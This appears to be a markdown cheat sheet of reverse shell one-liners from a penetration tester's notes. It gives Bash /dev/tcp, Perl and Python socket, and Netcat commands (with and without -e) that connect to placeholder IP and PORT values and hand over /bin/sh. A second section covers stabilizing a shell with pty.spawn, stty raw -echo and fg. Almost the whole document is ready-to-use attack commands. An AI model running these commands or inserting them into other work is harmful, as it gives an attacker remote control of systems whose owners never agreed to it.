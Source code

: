 # Shells 
## Bash
**In Current Shell**
```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
**In New Bash Shell**
Linux
```bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
## Perl 
Linux
```bash
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Python 
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Netcat 
### With '-e' Option
```bash
nc -e /bin/sh IP PORT
```
### Without '-e' Option
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```
## Socat 
## Meterpreter 
## Links
### Reverse Shell Generator
[RevShells](https://www.revshells.com/)

# Stabalizing Shells
## Python
1.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2.
```bash
export TERM=xterm
```
3.
CTRL+Z
4.
```bash
stty raw -echo; fg
```
